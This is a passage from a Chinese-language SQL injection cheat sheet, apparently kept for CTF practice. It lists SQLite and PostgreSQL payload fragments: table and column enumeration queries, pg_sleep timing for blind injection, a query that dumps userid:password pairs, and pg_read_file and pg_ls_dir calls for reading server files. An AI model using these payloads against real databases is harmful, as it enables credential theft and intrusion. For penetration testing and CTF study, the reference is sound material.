 - 爆表名
    - `SELECT name FROM sqlite_master WHERE type='table'`
- 爆表结构(含Column)
    - `SELECT sql FROM sqlite_master WHERE type='table'`
- 其他
    - `sqlite_version()`
    - sqlite无法使用`\'`跳脱单引号
- Boolean Based: SECCON 2017 qual SqlSRF

<details><summary><b>Click here to view script</b></summary></details>

## PostgreSQL

- 子字符串
    - `substr("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('x') => 120`
- Char function
    - `chr(65) => A`
- Concatenation
    - `||`
    - `'a' || 'b' => 'ab'`
- Delay function
    - `pg_sleep(5)`
    - `GENERATE_SERIES(1, 1000000)`
- 空白字元
    - `0A 0D 0C 09 20`
- encode / decode
    - `encode('123\\000\\001', 'base64')` => `MTIzAAE=`
    - `decode('MTIzAAE=', 'base64')` => `123\000\001`
- 不支持limit N, M
    - `limit a offset b` 略过前b笔，抓出a笔出来
- 注解
    - `--`
    - `/**/`
- 爆库名
    - `SELECT datname FROM pg_database`
- 爆表名
    - `SELECT tablename FROM pg_tables WHERE schemaname='dbname'`
- 爆Column
    - `SELECT column_name FROM information_schema.columns WHERE table_name='admin'`
- Dump all 
    - `array_to_string(array(select userid||':'||password from users),',')`
- 其它
    - version()
    - current\_database()
    - user
        - current_user
        - `SELECT usename FROM pg_user;`
    - current\_schema
    - current\_query()
    - inet\_server\_addr()
    - inet\_server\_port()
    - inet\_client\_addr()
    - inet\_client\_port()
    - type conversion
        - `cast(count(*) as text)`
    - `md5('abc')`
    - `replace('abcdefabcdef', 'cd', 'XX')` => `abXXefabXXef`
    - `pg_read_file(filename, offset, length)`
        - 读档
        - 只能读data_directory下的
    - `pg_ls_dir(dirname)`
        - 列目录内容